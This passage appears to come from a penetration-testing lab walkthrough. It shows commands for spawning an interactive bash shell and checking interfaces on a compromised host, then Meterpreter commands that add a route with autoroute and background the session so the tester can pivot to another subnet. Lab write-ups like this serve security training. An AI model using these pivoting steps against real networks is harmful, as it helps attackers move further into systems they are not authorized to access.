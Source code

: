 ```bash
/bin/bash -i
ifconfig
exit
```

<figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

* Add the route within `meterpreter` and background the meterpreter session

```bash
run autoroute -s 192.26.158.2
background
```

<figure><img src="../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>
